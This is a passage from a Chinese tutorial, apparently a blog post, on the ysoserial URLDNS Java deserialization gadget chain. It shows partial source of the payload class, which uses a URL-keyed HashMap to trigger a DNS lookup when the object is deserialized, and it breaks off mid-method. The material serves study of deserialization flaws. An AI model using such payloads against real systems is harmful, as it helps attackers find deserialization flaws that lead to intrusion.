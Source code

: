 设置`URLDNS`的运行参数![image-20220919173043221](images/image-20220919173043221.png)

其中`URLDNS`利用链部分的实现源码如下（删除部分不重要的内容）：
```java
package ysoserial.payloads;

import java.io.IOException;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;


public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

```